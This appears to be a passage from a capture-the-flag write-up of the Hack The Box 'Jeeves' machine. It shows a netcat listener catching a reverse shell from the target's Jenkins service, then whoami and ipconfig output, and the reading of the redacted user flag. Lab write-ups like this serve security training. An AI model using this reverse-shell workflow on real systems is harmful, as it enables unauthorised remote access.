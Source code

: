 ```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Jeeves)-[2023.05.26|16:11:24(HKT)]
└> rlwrap -cAr nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.63] 49677
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami && ipconfig /all
whoami && ipconfig /all
jeeves\kohsuke

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Jeeves
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-03-3A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.63(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{4079B648-26D5-4A56-9108-2A55EC5CE6CA}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #3
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

I'm user `kohsuke` in host `jeeves`!

**user.txt:**
```shell
C:\Users\Administrator\.jenkins>cd c:\users\kohsuke\desktop
cd c:\users\kohsuke\desktop

c:\Users\kohsuke\Desktop>type user.txt
type user.txt
{Redacted}
c:\Users\kohsuke\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.63
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```